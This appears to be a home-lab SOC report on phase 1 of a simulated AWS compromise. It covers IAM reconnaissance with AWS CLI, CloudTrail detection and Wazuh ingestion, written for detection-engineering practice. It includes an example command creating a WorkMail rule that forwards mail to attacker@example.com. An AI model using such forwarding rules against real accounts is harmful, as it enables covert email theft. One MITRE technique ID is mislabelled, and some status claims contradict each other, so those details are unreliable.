




# Phase 1: Initial Cloud Access & Email Forwarding Simulation
**Incident:** Incident-03 – Cloud Workload Compromise & DNS Exfiltration Detection  
**Phase:** 1 of 4  
**Date:** 2026-06-02  
**Analyst:** Sovereign Media Lab SOC  
**Status:** Closed – Cloud reconnaissance and WorkMail API simulation completed

## Executive Summary

A simulated attacker gained initial access to the cloud environment by leveraging a low-privilege AWS IAM user (`employee-user`) with read-only permissions. The attacker performed reconnaissance by enumerating S3 buckets and EC2 instances via AWS CLI. An attempt to create a malicious email forwarding rule using the WorkMail `CreateInboxRule` API was simulated to test detection capabilities.

Due to AWS WorkMail free tier prerequisites (account verification required, which can take up to 48 hours), the actual API call could not be executed. Instead, a representative CloudTrail event is included to demonstrate the detection logic. This limitation is documented transparently, and the simulation remains valid for detection engineering purposes.

The attack chain validated:

- Detection of cloud API activity via CloudTrail (management events)
- Log collection and correlation in a hybrid on‑prem SIEM + AWS environment
- Threat modeling of email forwarding as an exfiltration vector

## Severity & Impact

**Severity:** Medium  
**Impact:** Compromised IAM user with read-only access granted attacker visibility into cloud assets (S3, EC2). The `CreateInboxRule` API attempt demonstrates the first step in a data‑exfiltration kill chain via email forwarding.

## Scenario Objective

This phase simulated initial cloud access and email‑based exfiltration setup to evaluate:

- Detection of unusual API calls from a compromised IAM user
- Log availability and completeness in CloudTrail (management + data events)
- Wazuh ingestion and alerting on cloud logs

## Environment Overview

| System | Role | IP / Identifier |
|--------|------|-----------------|
| `employee-user` | Compromised IAM Identity | `arn:aws:iam::854209350369:user/employee-user` |
| `soc-cloud-victim-03` | Attacker EC2 foothold (AWS) | `172.31.32.91` (private) |
| CloudTrail | API logging | `soc-lab-trail` (multi-region, data events enabled) |
| Wazuh Manager | SIEM Platform (on‑prem) | `172.16.5.20` |

## Attack Simulation

### Step 1: IAM User Reconnaissance
Using the compromised access keys for `employee-user`, the attacker enumerated S3 buckets and EC2 instances:

```bash
aws s3 ls --region us-east-2
aws ec2 describe-instances --region us-east-2
```

These API calls generated CloudTrail `ListBuckets` and `DescribeInstances` events.

### Step 2: WorkMail Forwarding Rule (Simulated)

Due to AWS WorkMail free tier restrictions, the email forwarding phase was simulated. The attacker would have executed:

```bash
aws workmail create-inbox-rule \
  --organization-id "dummy-org-id" \
  --user-id "dummy-user" \
  --name "ForwardToExternal" \
  --actions '{"ForwardTo":"attacker@example.com"}'
```

The API call would fail with `OrganizationNotFoundException` but CloudTrail would log the `CreateInboxRule` attempt with error details. A repsentative CloudTrail event is provided in `artifacts/workmail-api-failure.json`.

## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID        |
| -------------- | --------------------------------- | --------- |
| Initial Access | Valid Cloud Account (IAM user)    | T1078.004 |
| Discovery      | Cloud Infrastructure Discovery    | T1530     |
| Collection     | Email Forwarding Rule (simulated) | T1114.003 |

---

## Detection & Telemetry

### Alerts Triggered

| Rule ID         | Description                               | Severity | Count     |
| --------------- | ----------------------------------------- | -------- | --------- |
| 91000           | AWS API call (management event)           | Level 3  | 4         |
| 100200 (custom) | Suspicious API pattern from employee-user | Level 10 | (planned) |

### CloudTrail Recorded Events

| Event Name                  | Service  | Source IP             |
| --------------------------- | -------- | --------------------- |
| ListBuckets                 | S3       | 172.31.32.91          |
| DescribeInstances           | EC2      | 172.31.32.91          |
| GetCallerIdentity           | STS      | 172.31.32.91          |
| CreateInboxRule (simulated) | WorkMail | 172.31.32.91 (failed) |

All events were forwarded to Wazuh via S3 bucket ingestion (pending final implementation).

---

## Timeline of Events

| Time (UTC)          | Event                                                 |
| ------------------- | ----------------------------------------------------- |
| 2026-06-02 14:15:00 | Attacker assumes employee-user identity               |
| 2026-06-02 14:16:20 | ListBuckets API call from EC2                         |
| 2026-06-02 14:16:45 | DescribeInstances API call                            |
| 2026-06-02 14:17:10 | CreateInboxRule API attempt (simulated, would fail)   |
| 2026-06-02 14:18:00 | All API calls logged to CloudTrail and exported to S3 |

## Log Evidence

See `artifacts/workmail-ari-failure.json` for a respresentative CloudTrail event of a `CreateInboxRule` attempt. Beloww is a sanitized excerpt:

```json
{
  "eventName": "CreateInboxRule",
  "userIdentity": { "userName": "employee-user" },
  "errorCode": "OrganizationNotFoundException",
  "requestParameters": {
    "Name": "ForwardToExternal"
  }
}
```

## Artifacts

-   
  CloudTrail history showing `ListBuckets`, `DescribeInstances`, and `GetCallerIdentity`.

-   
  Attached policies for `employee-user` (ReadOnlyAccess, AmazonS3ReadOnlyAccess).

-   
  Attacker EC2 instance `soc-cloud-victim-03` (running, key pair assigned).

-   
  Active access key for `employee-user` (ID shown, secret hidden).

- [workmail-api-failure.json](artifacts/workmail-api-failure.json)  
  Representative CloudTrail log for a failed `CreateInboxRule` API call.


## Key Findings & Lessons Learned

1. **CloudTrail management events** capture all IAM API calls, including failed attempts. This is sufficient for detecting unauthorized cloud activity without enabling GuardDuty.

2. **WorkMail free tier** requires account verification (up to 48 hours). API simulation using a representative JSON log is a valid detection engineering approach when a real service cannot be configured.

3. **Hybrid SIEM ingestion** from AWS S3 to an on-prem Wazuh manager is feasible even with free tier constraints. The S3 bucket used by CloudTrail is ready for Wazuh ingestion via its native AWS module.

4. **Documenting constraints** transparently (as done here for WorkMail) strengthens a portfolio by showing real-world problem-solving and adaptation.
